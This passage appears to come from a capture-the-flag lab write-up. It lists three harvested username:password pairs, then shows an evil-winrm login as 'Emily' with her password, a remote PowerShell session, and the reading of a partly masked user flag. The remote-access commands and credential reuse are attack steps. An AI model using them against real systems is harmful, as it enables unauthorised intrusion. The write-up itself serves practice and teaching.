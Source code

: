 <img src="Imgs/image4.png" alt="error loading image">

```bash
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
Emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Here, I found the user flag under the `Emily` account.

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily> cd Desktop
*Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
************1bfda6dc155cb3******
*Evil-WinRM* PS C:\Users\emily\Desktop> 

```
